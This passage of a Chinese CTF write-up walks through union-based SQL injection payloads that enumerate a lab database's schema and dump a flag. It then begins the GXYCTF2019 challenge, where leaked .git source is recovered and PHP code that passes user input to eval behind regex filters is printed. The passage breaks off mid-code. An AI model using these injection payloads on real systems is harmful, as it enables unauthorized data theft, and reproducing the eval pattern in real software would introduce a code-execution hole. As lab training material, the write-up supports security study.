 发现2和3位置可以回显 接着查询数据库名称

```sql
?wllm=-1' union select 1,2,database()--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736518481286-0187c7da-b43e-4fd8-9e94-7ba7d661957d.png)

爆出数据库名称为test_db 接着查询表名

```sql
?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+ 
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736518683818-927adddf-ac12-494f-99bb-3f49b7afb1bf.png)

查询出了两个表名分别为test _tb 和 user 接着查询表中的字段名

```sql
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'--+ 
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736519085030-1bd2c8eb-e594-4786-8305-fc3a82507421.png)

```sql
?wllm=-1' union select 1,2,group_concat(flag) from test_tb--+
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736519236744-9750b794-c8ea-4bd2-a5fe-54287323e7ad.png)

## [GXYCTF2019禁止套娃]
![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736576809404-c3362fb5-dfb3-46af-808e-a8fc6a4783d0.png)

打开靶机发现没有什么特殊的地方 抓包也没抓出什么线索 于是利用dirsearch扫描目录 发现git目录下正常

怀疑是git源代码泄露

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736568935614-49162047-1be0-4e96-ac86-142cb02c5153.png)

接着利用GitHack工具爬取文件内容 但是试了几次爬不下来

于是改用scrabble工具 爬下来个index.php文件

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736577176996-ae659f40-491e-46ed-8684-4b486933e562.png)

```sql
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
```